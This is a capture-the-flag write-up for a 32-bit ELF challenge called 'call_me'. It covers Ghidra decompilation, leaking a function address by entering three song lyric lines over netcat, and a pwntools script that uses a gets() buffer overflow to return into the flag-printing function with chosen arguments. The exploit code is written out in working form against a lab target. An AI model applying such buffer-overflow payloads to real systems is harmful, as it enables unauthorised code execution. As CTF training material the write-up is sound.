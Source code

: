 # call_me

```bash
> file call_me_thaMilo
 
call_me_thaMilo: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=db2355e65f8ec0cdc5cdcfc5d4df617518c8a9f6, for GNU/Linux 3.2.0, stripped
```

In order to understand what the executable would normally do I tried to run it and when prompted I inserted random values.
Doing so I finally got this message outputted

```
Wow, you do know the song! However, you did not solve the challenge :-(
```

Reading this I thought that maybe some pattern matching was executed against the input looking for a specific song's lyrics.
Leveraging this I opened the file with Ghidra looking for something related.
Analysing the functions I found one with an interesting body

```c
void FUN_000111ed(int param_1,int param_2,int param_3)
{
	printf("BASC{");
	if (param_1 != 0xb100d) {
	    exit(1);
	}
	printf("you_g0t_");
	if (param_2 != 0x5e1ec7ed) {
	    exit(2);
	}
	printf("the_args_");
	if (param_3 != 0x7ea) {
        exit(3);
	}
	puts("right}.");
        exit(0x2a);
	}
```

This functions seemed to print a flag if some specific parameters where passed.
To better understand what was going on I used the functionality to show the functions' calls tree.
Doing so I discovered that the "print_flag" function was called by another one 

```c
void FUN_000112f8(void)
{
	char *pcVar1;
	int iVar2;
	char acStack_bd [165];
	size_t local_18;
	int local_14;
	int local_10;
  
	local_10 = 0;
	local_14 = 0;
	while( true ) {
	    if ((&PTR_s_Color_me_your_color,_baby_00014020)[local_14] == (undefined *)0x0) {
			puts("Wow, you do know the song! However, you did not solve the challenge :-(");
			return;
	    }
	    printf("Enter line #%d: ",local_14 + 1);
	    pcVar1 = gets(acStack_bd + 1);
	    if (pcVar1 == (char *)0x0) break;
	    local_18 = strlen(acStack_bd + 1);
	    if (0x50 < local_18) {
	      return;
	    }
	    if ((local_18 != 0) && (acStack_bd[local_18] == '\n')) {
	      acStack_bd[local_18] = '\0';
	    }
	    iVar2 = strcmp(acStack_bd + 1,(&PTR_s_Color_me_your_color,_baby_00014020)[local_14]);
	    if (iVar2 == 0) {
	      local_10 = local_10 + 1;
	      if (local_10 == 3) {
	        printf("&target=%p\n",print_flag);
	      }
	    }
	    else {
	      local_10 = local_10 + -1;
	    }
	    local_14 = local_14 + 1;
	  }
  return;
}
```

This function was actually the one that prompted the user to insert the song's lyrics and looking at the line 

```c
printf("Enter line #%d: ",local_14 + 1);
```

I understood that the variable **local_14** held a index that kept track the current song's lyrics line that would be later on compared with the one inserted by the user

```c
iVar2 = strcmp(acStack_bd + 1,(&PTR_s_Color_me_your_color,_baby_00014020)[local_14]);
```

If the comparison was successful the variable **local_10** would be incremented and when the value 3 was reached it should leak the address of the **print_flag** function.
So in order to get the address I had to insert three correct lines of the song's lyrics

```
> nc 192.168.20.1 5110
Enter line #1: Color me your color, baby
Enter line #2: Color me your car
Enter line #3: Color me your color, darling
&target=0x5664a1ed
```

After getting the leaked address I could finally exploit the program through the **gets** function vulnerability.

```c
pcVar1 = gets(acStack_bd + 1);
```

It is possible to conduct a buffer overflow attack pretty easily figuring out the offset necessary to fill the **acStack_bd** variable ( e.g. using a cyclic pattern ) and then returning to the leaked function's address.
I had also to pass the correct parameters leaked by the **print_flag** function in order to get the flag.
Adding a 4 bytes offset between the function address and the parameters was necessary due to the architecture calling convention.

```python
p = pwn.remote(HOST, PORT)
p.recvuntil(b":")
p.sendline(b"Color me your color, baby")
p.recvuntil(b":")
p.sendline(b"Color me your car")
p.recvuntil(b":")
p.sendline(b"Color me your color, darling")
leaked_address = p.recvuntil(b"target=")
leaked_address = p.recvline().strip().decode()
p.sendline(
	b"a" * OFFSET
	+ pwn.p32(int(leaked_address, 16))
	+ b"a" * 4
	+ pwn.p32(int(FIRST_PARAM, 16))
	+ pwn.p32(int(SECOND_PARAM, 16))
	+ pwn.p32(int(THIRD_PARAM, 16))
)
p.interactive()
```

Doing so I was able to get the first flag

```
BASC{you_g0t_the_args_right}
```


